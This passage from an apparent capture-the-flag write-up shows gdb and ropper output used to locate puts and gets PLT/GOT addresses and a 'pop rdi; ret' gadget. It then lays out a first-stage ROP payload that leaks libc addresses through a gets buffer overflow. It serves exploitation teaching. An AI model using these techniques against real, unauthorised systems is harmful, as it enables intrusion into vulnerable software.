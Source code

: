 so **puts@plt** is **0x401030**
Then with gdb we will find the got entry for **puts** and **gets**
For **puts@got.plt** :
```
gdb> r
[...]
[-------------------------------------code-------------------------------------]
   0x401193 <main+81>:    mov    eax,0x0
   0x401198 <main+86>:    call   0x401040 <gets@plt>
   0x40119d <main+91>:    lea    rdi,[rip+0xe60]        # 0x402004
=> 0x4011a4 <main+98>:    call   0x401030 <puts@plt>
   0x4011a9 <main+103>:    mov    eax,0x0
   0x4011ae <main+108>:    leave  
   0x4011af <main+109>:    ret    
   0x4011b0 <__libc_csu_init>:    push   r15
Guessed arguments:
arg[0]: 0x402004 --> 0x21736b6e616854 ('Thanks!')
[...]

gdb> disas 0x401030
Dump of assembler code for function puts@plt:
   0x0000000000401030 <+0>:    jmp    QWORD PTR [rip+0x2fe2]        # 0x404018 <puts@got.plt>
   0x0000000000401036 <+6>:    push   0x0
   0x000000000040103b <+11>:    jmp    0x401020
End of assembler dump.
```

so **puts@got.plt** is **0x404018**

Same thing for **gets@got.plt** : **0x404020**

Last thing, a ROP gadget to use these addresses in arguments for **puts** :
```
$ ropper --file binary --search "% rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: % rdi

[INFO] File: binary
0x000000000040107a: adc dword ptr [rax], eax; mov rdi, 0x401142; call qword ptr [rip + 0x2f66]; hlt; nop dword ptr [rax + rax]; ret; 
0x0000000000401198: call 0x1040; lea rdi, [rip + 0xe60]; call 0x1030; mov eax, 0; leave; ret; 
0x000000000040119d: lea rdi, [rip + 0xe60]; call 0x1030; mov eax, 0; leave; ret; 
0x0000000000401077: mov ecx, 0x4011b0; mov rdi, 0x401142; call qword ptr [rip + 0x2f66]; hlt; nop dword ptr [rax + rax]; ret; 
0x0000000000401076: mov rcx, 0x4011b0; mov rdi, 0x401142; call qword ptr [rip + 0x2f66]; hlt; nop dword ptr [rax + rax]; ret; 
0x000000000040107d: mov rdi, 0x401142; call qword ptr [rip + 0x2f66]; hlt; nop dword ptr [rax + rax]; ret; 
0x000000000040120b: pop rdi; ret; 
```

The last one `0x000000000040120b: pop rdi; ret; ` is what we want
Now the first payload will look like :
```
[ padding size+0x8 ] [ ROP ] [ puts@got.plt ] [ puts@plt ] [ ROP ] [ gets@got.plt ] [ puts@plt ] [ main ]
```
